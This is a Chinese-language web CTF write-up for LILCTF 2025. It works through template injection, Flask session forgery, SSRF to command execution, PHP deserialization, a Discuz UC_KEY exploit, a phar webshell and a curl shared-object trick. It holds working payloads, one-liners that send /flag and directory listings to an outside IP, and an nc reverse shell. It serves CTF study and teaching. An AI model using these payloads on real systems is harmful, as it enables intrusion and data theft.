# LILCTF 2025 Web Writeup


# ez_bottle


源码

```
from bottle import route, run, template, post, request, static_file, error
import os
import zipfile
import hashlib
import time

# hint: flag in /flag , have a try

UPLOAD_DIR = os.path.join(os.path.dirname(__file__), 'uploads')
os.makedirs(UPLOAD_DIR, exist_ok=True)

STATIC_DIR = os.path.join(os.path.dirname(__file__), 'static')
MAX_FILE_SIZE = 1 * 1024 * 1024

BLACK_DICT = ["{", "}", "os", "eval", "exec", "sock", "<", ">", "bul", "class", "?", ":", "bash", "_", "globals",
              "get", "open"]


def contains_blacklist(content):
    return any(black in content for black in BLACK_DICT)


def is_symlink(zipinfo):
    return (zipinfo.external_attr >> 16) & 0o170000 == 0o120000


def is_safe_path(base_dir, target_path):
    return os.path.realpath(target_path).startswith(os.path.realpath(base_dir))


@route('/')
def index():
    return static_file('index.html', root=STATIC_DIR)


@route('/static/<filename>')
def server_static(filename):
    return static_file(filename, root=STATIC_DIR)


@route('/upload')
def upload_page():
    return static_file('upload.html', root=STATIC_DIR)


@post('/upload')
def upload():
    zip_file = request.files.get('file')
    if not zip_file or not zip_file.filename.endswith('.zip'):
        return 'Invalid file. Please upload a ZIP file.'

    if len(zip_file.file.read()) > MAX_FILE_SIZE:
        return 'File size exceeds 1MB. Please upload a smaller ZIP file.'

    zip_file.file.seek(0)

    current_time = str(time.time())
    unique_string = zip_file.filename + current_time
    md5_hash = hashlib.md5(unique_string.encode()).hexdigest()
    extract_dir = os.path.join(UPLOAD_DIR, md5_hash)
    os.makedirs(extract_dir)

    zip_path = os.path.join(extract_dir, 'upload.zip')
    zip_file.save(zip_path)

    try:
        with zipfile.ZipFile(zip_path, 'r') as z:
            for file_info in z.infolist():
                if is_symlink(file_info):
                    return 'Symbolic links are not allowed.'

                real_dest_path = os.path.realpath(os.path.join(extract_dir, file_info.filename))
                if not is_safe_path(extract_dir, real_dest_path):
                    return 'Path traversal detected.'

            z.extractall(extract_dir)
    except zipfile.BadZipFile:
        return 'Invalid ZIP file.'

    files = os.listdir(extract_dir)
    files.remove('upload.zip')

    return template("文件列表: {{files}}\n访问: /view/{{md5}}/{{first_file}}",
                    files=", ".join(files), md5=md5_hash, first_file=files[0] if files else "nofile")


@route('/view/<md5>/<filename>')
def view_file(md5, filename):
    file_path = os.path.join(UPLOAD_DIR, md5, filename)
    if not os.path.exists(file_path):
        return "File not found."

    with open(file_path, 'r', encoding='utf-8') as f:
        content = f.read()

    if contains_blacklist(content):
        return "you are hacker!!!nonono!!!"

    try:
        return template(content)
    except Exception as e:
        return f"Error rendering template: {str(e)}"


@error(404)
def error404(error):
    return "bbbbbboooottle"


@error(403)
def error403(error):
    return "Forbidden: You don't have permission to access this resource."


if __name__ == '__main__':
    run(host='0.0.0.0', port=5000, debug=False)
```
upload 路由给了一个文件上传的接口，`/view/<md5>/<filename>`路由调用了 template()，bottle 的模板引擎是能造成 RCE 的，黑名单没禁掉
思路是用 curl 上传，`static/<filename>` 路由允许读取静态文件并返回
payload
```
% import glob, io
% s = '\n'.join(glob.glob('/*'))
% io.FileIO('static/ls','wb').write(s.encode())
```


```
% import io
% d = io.FileIO('/flag','rb').read()
% io.FileIO('static/x','wb').write(d)
```


# Ekko_note
## 非预期
非预期解法，非预期出现是由于出题人的粗心导致

源码
```
# -*- encoding: utf-8 -*-
'''
@File    :   app.py
@Time    :   2066/07/05 19:20:29
@Author  :   Ekko exec inc. 某牛马程序员 
'''
import os
import time
import uuid
import requests

from functools import wraps
from datetime import datetime
from secrets import token_urlsafe
from flask_sqlalchemy import SQLAlchemy
from werkzeug.security import generate_password_hash, check_password_hash
from flask import Flask, render_template, redirect, url_for, request, flash, session

SERVER_START_TIME = time.time()


# 欸我艹这两行代码测试用的忘记删了，欸算了都发布了，我们都在用力地活着，跟我的下班说去吧。
# 反正整个程序没有一个地方用到random库。应该没有什么问题。
import random
random.seed(SERVER_START_TIME)


admin_super_strong_password = token_urlsafe()
app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-secret-key-here'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///site.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False

db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(20), unique=True, nullable=False)
    email = db.Column(db.String(120), unique=True, nullable=False)
    password = db.Column(db.String(60), nullable=False)
    is_admin = db.Column(db.Boolean, default=False)
    time_api = db.Column(db.String(200), default='https://api.uuni.cn//api/time')


class PasswordResetToken(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    token = db.Column(db.String(36), unique=True, nullable=False)
    used = db.Column(db.Boolean, default=False)


def padding(input_string):
    byte_string = input_string.encode('utf-8')
    if len(byte_string) > 6: byte_string = byte_string[:6]
    padded_byte_string = byte_string.ljust(6, b'\x00')
    padded_int = int.from_bytes(padded_byte_string, byteorder='big')
    return padded_int

with app.app_context():
    db.create_all()
    if not User.query.filter_by(username='admin').first():
        admin = User(
            username='admin',
            email='admin@example.com',
            password=generate_password_hash(admin_super_strong_password),
            is_admin=True
        )
        db.session.add(admin)
        db.session.commit()

def login_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            flash('请登录', 'danger')
            return redirect(url_for('login'))
        return f(*args, **kwargs)
    return decorated_function

def admin_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            flash('请登录', 'danger')
            return redirect(url_for('login'))
        user = User.query.get(session['user_id'])
        if not user.is_admin:
            flash('你不是admin', 'danger')
            return redirect(url_for('home'))
        return f(*args, **kwargs)
    return decorated_function

def check_time_api():
    user = User.query.get(session['user_id'])
    try:
        response = requests.get(user.time_api)
        data = response.json()
        datetime_str = data.get('date')
        if datetime_str:
            print(datetime_str)
            current_time = datetime.fromisoformat(datetime_str)
            return current_time.year >= 2066
    except Exception as e:
        return None
    return None
@app.route('/')
def home():
    return render_template('home.html')

@app.route('/server_info')
@login_required
def server_info():
    return {
        'server_start_time': SERVER_START_TIME,
        'current_time': time.time()
    }

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username')
        email = request.form.get('email')
        password = request.form.get('password')
        confirm_password = request.form.get('confirm_password')

        if password != confirm_password:
            flash('密码错误', 'danger')
            return redirect(url_for('register'))

        existing_user = User.query.filter_by(username=username).first()
        if existing_user:
            flash('已经存在这个用户了', 'danger')
            return redirect(url_for('register'))

        existing_email = User.query.filter_by(email=email).first()
        if existing_email:
            flash('这个邮箱已经被注册了', 'danger')
            return redirect(url_for('register'))

        hashed_password = generate_password_hash(password)
        new_user = User(username=username, email=email, password=hashed_password)
        db.session.add(new_user)
        db.session.commit()

        flash('注册成功，请登录', 'success')
        return redirect(url_for('login'))

    return render_template('register.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')

        user = User.query.filter_by(username=username).first()
        if user and check_password_hash(user.password, password):
            session['user_id'] = user.id
            session['username'] = user.username
            session['is_admin'] = user.is_admin
            flash('登陆成功，欢迎!', 'success')
            return redirect(url_for('dashboard'))
        else:
            flash('用户名或密码错误!', 'danger')
            return redirect(url_for('login'))

    return render_template('login.html')

@app.route('/logout')
@login_required
def logout():
    session.clear()
    flash('成功登出', 'info')
    return redirect(url_for('home'))

@app.route('/dashboard')
@login_required
def dashboard():
    return render_template('dashboard.html')

@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'POST':
        email = request.form.get('email')
        user = User.query.filter_by(email=email).first()
        if user:
            # 选哪个UUID版本好呢，好头疼 >_<
            # UUID v8吧，看起来版本比较新
            token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
            reset_token = PasswordResetToken(user_id=user.id, token=token)
            db.session.add(reset_token)
            db.session.commit()
            # TODO：写一个SMTP服务把token发出去
            flash(f'密码恢复token已经发送，请检查你的邮箱', 'info')
            return redirect(url_for('reset_password'))
        else:
            flash('没有找到该邮箱对应的注册账户', 'danger')
            return redirect(url_for('forgot_password'))

    return render_template('forgot_password.html')

@app.route('/reset_password', methods=['GET', 'POST'])
def reset_password():
    if request.method == 'POST':
        token = request.form.get('token')
        new_password = request.form.get('new_password')
        confirm_password = request.form.get('confirm_password')

        if new_password != confirm_password:
            flash('密码不匹配', 'danger')
            return redirect(url_for('reset_password'))

        reset_token = PasswordResetToken.query.filter_by(token=token, used=False).first()
        if reset_token:
            user = User.query.get(reset_token.user_id)
            user.password = generate_password_hash(new_password)
            reset_token.used = True
            db.session.commit()
            flash('成功重置密码！请重新登录', 'success')
            return redirect(url_for('login'))
        else:
            flash('无效或过期的token', 'danger')
            return redirect(url_for('reset_password'))

    return render_template('reset_password.html')

@app.route('/execute_command', methods=['GET', 'POST'])
@login_required
def execute_command():
    result = check_time_api()
    if result is None:
        flash("API死了啦，都你害的啦。", "danger")
        return redirect(url_for('dashboard'))

    if not result:
        flash('2066年才完工哈，你可以穿越到2066年看看', 'danger')
        return redirect(url_for('dashboard'))

    if request.method == 'POST':
        command = request.form.get('command')
        os.system(command) # 什么？你说安全？不是，都说了还没完工催什么。
        return redirect(url_for('execute_command'))

    return render_template('execute_command.html')

@app.route('/admin/settings', methods=['GET', 'POST'])
@admin_required
def admin_settings():
    user = User.query.get(session['user_id'])
    
    if request.method == 'POST':
        new_api = request.form.get('time_api')
        user.time_api = new_api
        db.session.commit()
        flash('成功更新API！', 'success')
        return redirect(url_for('admin_settings'))

    return render_template('admin_settings.html', time_api=user.time_api)

if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0")

```
找到 Sink，check_time_api() 做了一个 date 时间校验，默认是在 class 类 `time_api = db.Column(db.String(200), default='https://api.uuni.cn//api/time')` 中定义，想要执行到 Sink 必须年份大于 2066
```
@app.route('/execute_command', methods=['GET', 'POST'])
@login_required
def execute_command():
    result = check_time_api()
		  =>
			def check_time_api():
			    user = User.query.get(session['user_id'])
			    try:
			        response = requests.get(user.time_api)
			        data = response.json()
			        datetime_str = data.get('date')
			        if datetime_str:
			            print(datetime_str)
			            current_time = datetime.fromisoformat(datetime_str)
			            return current_time.year >= 2066
			    except Exception as e:
			        return None
			    return None

    if result is None:
    if not result:
    if request.method == 'POST':
        os.system(command)
        ...
    return render_template('execute_command.html')
```
默认是当前北京时间，因此下一步审计哪块路由提供修改功能或者相关函数漏洞

`/admin/settings` 显然名如其意，进去就能修改，最开头加了语法糖
```
@app.route('/admin/settings', methods=['GET', 'POST'])
@admin_required
def admin_settings():
    user = User.query.get(session['user_id'])
    
    if request.method == 'POST':
        new_api = request.form.get('time_api')
        user.time_api = new_api
        db.session.commit()
        flash('成功更新API！', 'success')
        return redirect(url_for('admin_settings'))

    return render_template('admin_settings.html', time_api=user.time_api)
```
看一下 `@admin_required`，验证 admin 权限
```
def admin_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user_id' not in session:
            flash('请登录', 'danger')
            return redirect(url_for('login'))
        user = User.query.get(session['user_id'])
        if not user.is_admin:
            flash('你不是admin', 'danger')
            return redirect(url_for('home'))
        return f(*args, **kwargs)
    return decorated_function
```
所以思路就是 session 伪造 admin，进入 /admin/settings 路由修改 date 时间戳，去 execute_command 完成 RCE
```
@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'POST':
        email = request.form.get('email')
        user = User.query.filter_by(email=email).first()
        if user:
            # 选哪个UUID版本好呢，好头疼 >_<
            # UUID v8吧，看起来版本比较新
            token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
            reset_token = PasswordResetToken(user_id=user.id, token=token)
            db.session.add(reset_token)
            db.session.commit()
            # TODO：写一个SMTP服务把token发出去
            flash(f'密码恢复token已经发送，请检查你的邮箱', 'info')
            return redirect(url_for('reset_password'))
        else:
            flash('没有找到该邮箱对应的注册账户', 'danger')
            return redirect(url_for('forgot_password'))

    return render_template('forgot_password.html')
```
发现密钥明文存储，且 `session` 存储，Flask 默认就是 `session`，PHP 原生会话是 `PHPSESSID`，JWT 往往是自定义的 `Cookie` 
出题人解释打 uuid8 才是预期解，这个密钥的出现是因为忘记删除
```
SECRET_KEY = 'your-secret-key-here'
```
尝试用密钥解密，能够直接被解密，是使用的 Flask 默认 `itsdangerous` 签名，没有其他加密
```
L1n@:~/Flask-Unsign-master$ flask-unsign --decode --cookie '.eJwlisEOgjAQBX9F37kHqFikv-KSppTd2AQ4uO6J8O8SPc1kMjuSLFlfrIjPHZfPCaiVwqpwIOtDP5ENoQtkwbcN2d0PQibSlLNM3pM9pPAV4zE6VE15XuuGKHlRdjDld6ozYvf3La-MiN_U-huOL6sxKdk.aJ7raA.kpNpOwRWkcpbWqJoWqv8AcJJeIg' --secret 'your-secret-key-here' --salt cookie-session
# {'_flashes': [('success', '登陆成功，欢迎!')], 'is_admin': False, 'user_id': 4, 'username': 'admin123'}
```
直接用密钥伪造一个 admin 合法签名
```
L1n@:~/Flask-Unsign-master$ flask-unsign --sign --cookie '{"user_id":1,"username":"admin"}' --secret 'your-secret-key-here' --salt cookie-session
# eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.aJ7usQ.mBdSyJmEsIIEBOiQPpS3WYg86h0
```
替换 session，成功伪造 admin 权限

访问 /admin/settings 路由，上面的 https://api.uuni.cn//api/time 是一个公网的服务，说明靶机是出网的，这里是一个小 SSRF
```
response = requests.get(user.time_api)
```
VPS 开启 Web 服务，将时间修改为 2066 之后
```
# {"date":"2080-08-15 16:30:52","weekday":"星期五","timestamp":1755246652,"remark":"任何情况请联系QQ:3295320658  微信服务号:顺成网络"}
python3 -m http.server 29999
```
修改 API 为 VPS 端口

访问 /execute_command 路由，成功

读目录
```
python3 -c "import socket,subprocess; s=socket.create_connection(('60.204.244.254',8080),5); s.sendall(subprocess.check_output(['sh','-lc','ls /'])); s.close()"
```


拿到 flag
```
python3 -c "import socket; s=socket.create_connection(('60.204.244.254',8080), 5); s.sendall(open('/flag','rb').read()); s.close()"
```

直接反弹 shell，目标环境有 nc
```
nc ip 9999 -e sh
```


## 预期解
最开始不是没发现 uuid8 这边注释，找了一圈发现没有这个方法，以为是烟雾弹，赛后告知是 python 3.14 才有，看完出题人解释 uuid8 的解法，总结一下
random.send 设置了一个随机数种子
```
random.seed(SERVER_START_TIME)
```
这个随机数种子在开头被定义，是一个固定值，在 server_info 路由能够被获取到，这个路由通过 @login_required 装饰器修饰，所以没有什么限制，注册、登录并访问这个路由就能获取
```
SERVER_START_TIME = time.time()

@app.route('/server_info')
@login_required
def server_info():
    return {
        'server_start_time': SERVER_START_TIME,
        'current_time': time.time()
    }
```
先看一下 uuid8 方法怎么实现的。
如果参数没有定义，则 a、b、c 参数都由 `random.getrandbits()` 生成，这里用的是 `random` 模块的 PRNG，会被 `random.seed()` 全局播种影响；随后进行位拼装得到字符串
```
def uuid8(a=None, b=None, c=None):
    if a is None:
        import random
        a = random.getrandbits(48)
    if b is None:
        import random
        b = random.getrandbits(12)
    if c is None:
        import random
        c = random.getrandbits(62)
    int_uuid_8 = (a & 0xffff_ffff_ffff) << 80
    int_uuid_8 |= (b & 0xfff) << 64
    int_uuid_8 |= c & 0x3fff_ffff_ffff_ffff
    # by construction, the variant and version bits are already cleared
    int_uuid_8 |= _RFC_4122_VERSION_8_FLAGS
    return UUID._from_int(int_uuid_8)
```
当固定一个种子时，取出来的随机数就是固定的

关键部分 forgot_password 路由，传入 email，并会生成一个 token 发送到邮箱
token = uuid8 生成，参数 a 由 padding(user.username) 控制，b、c 为空都由种子控制，种子已经确定能控制，现在唯一要控制的就是参数 a
padding() 是一个自定义的方法，将传入的字符进行处理，大致是将传入的字符只取前六个字节并转为 48 bit 整数
```
@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
    if request.method == 'POST':
        email = request.form.get('email')
        user = User.query.filter_by(email=email).first()
        if user:
            # 选哪个UUID版本好呢，好头疼 >_<
            # UUID v8吧，看起来版本比较新
            token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
			      => # padding 方法
					def padding(input_string):
					    byte_string = input_string.encode('utf-8')
					    if len(byte_string) > 6: byte_string = byte_string[:6]
					    padded_byte_string = byte_string.ljust(6, b'\x00')
					    padded_int = int.from_bytes(padded_byte_string, byteorder='big')
					    return padded_int

            reset_token = PasswordResetToken(user_id=user.id, token=token)
            db.session.add(reset_token)
            db.session.commit()
            # TODO：写一个SMTP服务把token发出去
            flash(f'密码恢复token已经发送，请检查你的邮箱', 'info')
            return redirect(url_for('reset_password'))
        else:
            flash('没有找到该邮箱对应的注册账户', 'danger')
            return redirect(url_for('forgot_password'))
```
`user = User.query.filter_by(email=email).first()`，通过 email 作为条件去获取数据表中第一个字段，这在程序运行初始化时就会创建，表单内容大致为 0 id、1 username、2 email 类似，此时执行的等价于 `select * from user where email='<email>' limit 1`
```
with app.app_context():
    db.create_all()
    if not User.query.filter_by(username='admin').first():
        admin = User(
            username='admin',
            email='admin@example.com',
            password=generate_password_hash(admin_super_strong_password),
            is_admin=True
        )
        db.session.add(admin)
        db.session.commit()
```
对 `SQLAlchemy` 模块不熟悉就直接改一下源码测试
```
@app.route('/')
def home():
    email = 'admin@example.com'
    user = User.query.filter_by(email=email).first()
    return user.username
```

所以 `token` 就完全可以本地伪造，拿到之后 `user_id=admin, token=<token>`表单一填，就能重置 admin 密码
```
token = str(uuid.uuid8(a=padding(user.username))) # 可以自定义参数吗原来，那把username放进去吧
reset_token = PasswordResetToken(user_id=user.id, token=token)
```
注册用户并登录，访问 server_info 拿到 time 随机数值

本地生成 token
```
import random
import uuid

def padding(input_string):
    byte_string = input_string.encode('utf-8')
    if len(byte_string) > 6: byte_string = byte_string[:6]
    padded_byte_string = byte_string.ljust(6, b'\x00')
    padded_int = int.from_bytes(padded_byte_string, byteorder='big')
    return padded_int

random.seed(1755961217.6761746)
token = str(uuid.uuid8(a=padding('admin')))
print(token)
# 61646d69-6e00-87ef-9b8b-d5e6962f8abc
```
将生成的 token 写入

成功登录 admin 账号，接下来操作就一样了


# Your Uns3r

源码
```
<?php
highlight_file(__FILE__);
class User
{
    public $username;
    public $value;
    public function exec()
    {
        $ser = unserialize(serialize(unserialize($this->value)));
        if ($ser != $this->value && $ser instanceof Access) {
            include($ser->getToken());
        }
    }
    public function __destruct()
    {
        if ($this->username == "admin") {
            $this->exec();
        }
    }
}

class Access
{
    protected $prefix;
    protected $suffix;

    public function getToken()
    {
        if (!is_string($this->prefix) || !is_string($this->suffix)) {
            throw new Exception("Go to HELL!");
        }
        $result = $this->prefix . 'lilctf' . $this->suffix;
        if (strpos($result, 'pearcmd') !== false) {
            throw new Exception("Can I have peachcmd?");
        }
        return $result;

    }
}

$ser = $_POST["user"];
if (strpos($ser, 'admin') !== false && strpos($ser, 'Access":') !== false) {
    exit ("no way!!!!");
}

$user = unserialize($ser);
throw new Exception("nonono!!!");
```
exp
```
<?php
highlight_file(__FILE__);
class User
{
    public $username;
    public $value;
}
class Access
{
    protected $prefix;
    protected $suffix;

    public function __construct($prefix, $suffix) {
        $this->prefix = $prefix;
        $this->suffix = $suffix;
    }
}
$user = new User();
$access = new Access('./','../../../../../flag');
$user -> username = 0;
$user -> value = serialize($access);
$s = serialize($user);
echo urlencode($s);
```
删去最后三个字符
```
user=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bi%3A0%3Bs%3A5%3A%22value%22%3Bs%3A85%3A%22O%3A6%3A%22Access%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00prefix%22%3Bs%3A2%3A%22.%2F%22%3Bs%3A9%3A%22%00%2A%00suffix%22%3Bs%3A19%3A%22..%2F..%2F..%2F..%2F..%2Fflag%22%3B%7D%22%3B
```



# 我曾有一份工作(unsolved)

目录扫描发现备份文件

找到 UC_KEY 泄露

拥有`uc_key` 能够对 `/api/db/dbbak.php` 进行操作数据库操作
exp
```
<?php
$uc_key="N8ear1n0q4s646UeZeod130eLdlbqfs1BbRd447eq866gaUdmek7v2D9r9EeS6vb";

$a = 'time='.time().'&method=export';
//$a = 'time='.time().'&method=export&tableid=90&sqlpath=backup&backupfilename=l';

echo $code=urlencode(_authcode($a, 'ENCODE', $uc_key));

function _authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
    $ckey_length = 4;

    $key = md5($key ? $key : UC_KEY);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

    $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result = '';
    $box = range(0, 255);

    $rndkey = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        if(((int)substr($result, 0, 10) == 0 || (int)substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) === substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }
}
```

下载 sql 文件

找到 `pre_a_flag`

解码拿到 FLAG



# php_jail_is_my_cry(unsolved)

不完整源码如下
```
<?php
if (isset($_POST['url'])) {
    $url = $_POST['url'];
    $file_name = basename($url);
    
    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    
    if ($data) {
        file_put_contents('/tmp/'.$file_name, $data);
        echo "文件已下载: <a href='?down=$file_name'>$file_name</a>";
    } else {
        echo "下载失败。";
    }
}

if (isset($_GET['down'])){
    include '/tmp/' . basename($_GET['down']);
    exit;
}

// 上传文件
if (isset($_FILES['file'])) {
    $target_dir = "/tmp/";
    $target_file = $target_dir . basename($_FILES["file"]["name"]);
    $orig = $_FILES["file"]["tmp_name"];
    $ch = curl_init('file://'. $orig);
    
    // I hide a trick to bypass open_basedir, I'm sure you can find it.

    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    if (stripos($data, '<?') === false && stripos($data, 'php') === false && stripos($data, 'halt') === false) {
        file_put_contents($target_file, $data);
    } else {
        echo "存在 `<?` 或者 `php` 或者 `halt` 恶意字符!";
        $data = null;
    }
}
?>
```
已知程序提供文件上传和文件包含接口
有一个关于 `DeadsecCTF 2025` 赛关于 include 与 `phar` 特性的利用，生成一个 `phar` 文件把他打包成 `gz` 文件后，当 `include` 包含 `gz` 文件时，`php` 会默认把这个 `gz` 文件解压回 `phar` 进行解析，而压缩后的 `gz` 文件不存在明文关键字，可以绕过许多黑名单
生成 `phar`，并压缩为 `gz`
```
<?php  
$phar = new Phar('test.phar');  
$phar->startBuffering();  
$stub = <<< 'STUB'  
<?php  
file_put_contents('shell.php', '<?php @eval($_POST[0]); ?>');  
__HALT_COMPILER();  
?>  
STUB;  
$phar->setStub($stub);  
$phar->addFromString('test.txt', 'dummy');  
$phar->stopBuffering();  
?>
```

上传木马，`?down=/tmp/test.phar.gz` 文件包含，网站目录下就生成了 `shell.php`，看一下配置信息
n+ 多函数被禁用了

发现 curl 加载动态库链接的缺陷，能够导致 RCE
https://hackerone.com/reports/3293801

影响版本：PHP 8.13.0 及以下
操作：
将以下 C 代码另存为 `1.c`
```
#include <stdlib.h>

__attribute__((constructor))
static void rce_init(void) {
    system("id > /tmp/id.txt");
}
```
使用 `gcc` 将 C 代码编译成共享对象 （.so） 文件。
```
gcc -fPIC -shared -o 1.so 1.c
```
使用恶意引擎执行 curl
```
curl --engine `pwd`/1.so https://example.com
```
此时就写入了文件

这在 PHP curl 扩展中同样奏效
利用条件：
1、网站有一句话木马，能 `RCE`
2、能上传 so 文件
3、curl 扩展函数没被 ban
```
#include <stdlib.h>

__attribute__((constructor))
static void rce_init(void){
    system("ls / -liah > ./ls.txt");
}
```
生成 so 并上传，然后用加载动态库链接
```
$ch = curl_init("http://example.com");
curl_setopt($ch, CURLOPT_SSLENGINE , "/tmp/4.so");
$data = curl_exec($ch);
curl_close($ch);
```
flag 没有读取权限，题目提示读 readflag




### 其他思路
先拿一下源码，平台给的源码有几行没了，并注释了，意思是这里有一个 `open_basedir` 绕过的 `tricks`，一开始没 `get` 到点
```
// I hide a trick to bypass open_basedir, I'm sure you can find it.
```

后来了解到 PHP curl 拓展能够绕过 `open_basedir` 

在正常情况下，`curl` 的 `file://` 协议是受到 `open_basedir` 限制的，这意味着如果 `open_basedir` 被设置为限制访问的路径，`file://` 协议会被阻止。
但`curl` 扩展允许通过 `CURLOPT_PROTOCOLS_STR` 选项来显式指定允许使用的协议，并将其设置为 `all`。这意味着可以让 `curl` 支持所有协议，包括 `file://` 协议，即使该协议在 `PHP` 配置中通常会受到限制。
```
$ch = curl_init("file:///etc/passwd");
curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
curl_exec($ch);
```

通过这种方式，读取程序完整源码
```
# 省略ＨＴＭＬ部分
<?php
if (isset($_POST['url'])) {
    $url = $_POST['url'];
    $file_name = basename($url);
    
    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    
    if ($data) {
        file_put_contents('/tmp/'.$file_name, $data);
        echo "文件已下载: <a href='?down=$file_name'>$file_name</a>";
    } else {
        echo "下载失败。";
    }
}

if (isset($_GET['down'])){
    print('include'.$_GET['down']);
    include '/tmp/' . basename($_GET['down']);
    exit;
}

// 上传文件
if (isset($_FILES['file'])) {
    $target_dir = "/tmp/";
    $target_file = $target_dir . basename($_FILES["file"]["name"]);
    $orig = $_FILES["file"]["tmp_name"];
    $ch = curl_init('file://'. $orig);
    curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all"); // secret trick to bypass, omg why will i show it to you!
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    if (stripos($data, '<?') === false && stripos($data, 'php') === false && stripos($data, 'halt') === false) {
        file_put_contents($target_file, $data);
    } else {
        echo "存在 `<?` 或者 `php` 或者 `halt` 恶意字符!";
        $data = null;
    }
}
?>
```
绕过 disable_functions 还能用 glibc iconv，但没继续复现

# blade_cc(unsolved)
恶补 java 在复现


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/lilctf-2025-web-writeup/  

